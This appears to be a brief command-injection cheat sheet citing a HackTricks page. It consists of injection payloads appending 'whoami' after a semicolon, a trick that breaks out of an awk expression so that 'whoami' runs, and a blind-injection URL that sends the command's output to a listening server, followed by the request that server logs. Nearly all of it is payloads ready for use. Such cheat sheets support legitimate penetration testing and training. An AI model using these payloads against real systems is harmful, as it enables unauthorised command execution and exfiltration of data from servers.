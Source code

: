 [https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
**Payloads**
```Python
; whoami
```
```Python
; whoami ;
```
```Python
; whoami ; #
```
**Close logic via our controlled input, then execute**
```Python
 awk 'BEGIN {print sqrt(((-2)^2) + ((-3)^2))}'
```
```Python
3)^2))}';whoami;#
```
### Blind
```Python
http://LOCALIP>:PORT/?=`whoami`
```
Response on listening server:
```Python
HEAD /?=www-data HTTP/1.1
```
